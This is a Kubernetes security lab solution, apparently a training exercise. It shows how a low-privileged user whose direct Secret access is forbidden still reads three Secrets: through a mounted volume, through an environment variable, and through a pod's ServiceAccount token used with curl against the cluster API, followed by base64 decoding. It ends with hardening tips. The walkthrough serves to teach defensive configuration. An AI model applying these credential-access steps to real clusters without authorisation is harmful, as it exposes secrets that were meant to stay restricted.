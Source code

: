 # ✅ SOLUTION — Lab: Escaping Secret Restrictions with Pod Workarounds

This solution walks through how a user with very restricted permissions can still exfiltrate the contents of Secrets using clever observation of the Pod configuration and access methods.

---

## 🔁 Step 1: Switch to restricted context

```bash
kubectl config use-context restricted@infra-prod
```

This simulates a low-privileged user who cannot list or get Secrets directly.

```
$ k -n team-red get secrets
Error from server (Forbidden): secrets is forbidden: User "system:serviceaccount:team-red:restricted" cannot list resource "secrets" in API group "" in the namespace "team-red"
```

## 🔍 Step 2: Explore the environment

```bash
kubectl get pods -n team-red
NAME       READY   STATUS    RESTARTS   AGE
pod/pod1   1/1     Running   0          79s
pod/pod2   1/1     Running   0          79s
pod/pod3   1/1     Running   0          79s
```

You should see the 3 running pods: `pod1`, `pod2`, `pod3`

---

## 🔐 Secret 1 (Mounted Volume)

Inspect the pod :

```
$ k -n team-red describe pod/pod1
...
    Mounts:
      /etc/secret-volume from secret-vol (rw)
      /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-2qhzz (ro)
...

$ k -n team-red exec pod1 -- ls -la /etc/secret-volume/
total 4
drwxrwxrwt    3 root     root           100 Apr 15 15:59 .
drwxr-xr-x    1 root     root          4096 Apr 15 15:59 ..
drwxr-xr-x    2 root     root            60 Apr 15 15:59 ..2025_04_15_15_59_04.492721276
lrwxrwxrwx    1 root     root            31 Apr 15 15:59 ..data -> ..2025_04_15_15_59_04.492721276
lrwxrwxrwx    1 root     root            15 Apr 15 15:59 password -> ..data/password

$ k -n team-red exec pod1 -- cat /etc/secret-volume/password
This-IS
```


## 🔐 Secret 2 (Environment Variable)

Inspect pod2 :

```
$ k -n team-red describe pod/pod2
...
Containers:
  c2:
  ...
    Environment:
      PASSWORD:  <set to the key 'PASSWORD' in secret 'secret2'>  Optional: false
...

$ k -n team-red exec pod2 -- env | grep PASSWORD
PASSWORD=the-suP3r
```

## 🔐 Secret 3 (ServiceAccount Token + Kubernetes API)

This one is more subtle and relies on understanding how a pod can use its mounted **ServiceAccount token** to query the Kubernetes API directly.

### 🔎 Step A — Find which pod has the token mounted

```
$ k -n team-red get pod pod3 -o yaml | grep -i serviceAccount
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"pod3","namespace":"team-red"},"spec":{"automountServiceAccountToken":true,"containers":[{"command":["sleep","3600"],"image":"curlimages/curl","name":"c3"}],"serviceAccountName":"pod-sa"}}
  automountServiceAccountToken: true
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
  serviceAccount: pod-sa
  serviceAccountName: pod-sa
      - serviceAccountToken:
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
```
Make sure `automountServiceAccountToken: true` is enabled (default behavior) :

```
$ $ k -n team-red get pod pod3 -o yaml | grep -i automount
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"pod3","namespace":"team-red"},"spec":{"automountServiceAccountToken":true,"containers":[{"command":["sleep","3600"],"image":"curlimages/curl","name":"c3"}],"serviceAccountName":"pod-sa"}}
  automountServiceAccountToken: true
```

### 🔐 Step B — Enter the pod
```bash
$ k -n team-red exec -it pod3 -- sh
```
Inside the shell, inspect the directory:
```sh
$ ls -la /run/secrets/kubernetes.io/serviceaccount
total 4
drwxrwxrwt    3 root     root           140 Apr 15 15:59 .
drwxr-xr-x    3 root     root          4096 Apr 15 15:59 ..
drwxr-xr-x    2 root     root           100 Apr 15 15:59 ..2025_04_15_15_59_05.2109065701
lrwxrwxrwx    1 root     root            32 Apr 15 15:59 ..data -> ..2025_04_15_15_59_05.2109065701
lrwxrwxrwx    1 root     root            13 Apr 15 15:59 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root            16 Apr 15 15:59 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root            12 Apr 15 15:59 token -> ..data/token
```
You see: `token`, `ca.crt`, `namespace`

### 🔐 Step C — Use curl to access the API

We get the token :

```sh
$ TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
```

Call the secrets endpoint using the API reference : https://kubernetes.io/docs/reference/kubernetes-api/config-and-storage-resources/secret-v1/#get-read-the-specified-secret

```sh
$ curl -sSk -H "Authorization: Bearer $TOKEN" https://kubernetes.default/api/v1/namespaces/team-red/secrets/secret3
{
  "kind": "Secret",
  "apiVersion": "v1",
  "metadata": {
    "name": "secret3",
    "namespace": "team-red",
    "uid": "4720e9e6-fe4e-4e30-aa9d-34e5281bfa13",
    "resourceVersion": "174952",
    "creationTimestamp": "2025-04-15T16:31:10Z",
    "annotations": {
      "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"secret3\",\"namespace\":\"team-red\"},\"stringData\":{\"password\":\"pAssw0rd\"}}\n"
    },
    "managedFields": [
      {
        "manager": "kubectl-client-side-apply",
        "operation": "Update",
        "apiVersion": "v1",
        "time": "2025-04-15T16:31:10Z",
        "fieldsType": "FieldsV1",
        "fieldsV1": {
          "f:data": {
            ".": {},
            "f:password": {}
          },
          "f:metadata": {
            "f:annotations": {
              ".": {},
              "f:kubectl.kubernetes.io/last-applied-configuration": {}
            }
          },
          "f:type": {}
        }
      }
    ]
  },
  "data": {
    "password": "cEFzc3cwcmQ="
  },
  "type": "Opaque"

```

Notes :
- `curl -sSk -H "Authorization: Bearer $TOKEN" https://kubernetes.default/api/v1/namespaces/<NAMESPACE>/secrets/<SECRET_NAME>`
- To find the ULR for API search in Kubernetes documentation "API from pod", you will find this page : https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/

### 📦 Step D — Parse the result
You’ll get JSON output similar to:
```json
  "data": {
    "password": "cEFzc3cwcmQ="
```

The value of the secret is base64-encoded.

### 🔐 Step E — Decode and save
```sh
$ echo cEFzc3cwcmQ= | base64 -d 
pAssw0rd
```

✅ All 3 secrets have been successfully retrieved by leveraging what the pods were already allowed to see.


## 🔚 Step 3: Return to admin context

```bash
kubectl config use-context kubernetes-admin@kubernetes
```

## 💡 Tips and Notes

- Never assume that denying Secret `get` or `list` API calls is enough — pods can still expose secrets via mounts or env vars.
- ServiceAccount tokens allow pods to access the API — this should be limited or disabled if not necessary (`automountServiceAccountToken: false`).
- A stricter security design would enforce validation or scanning of pod configurations before scheduling.


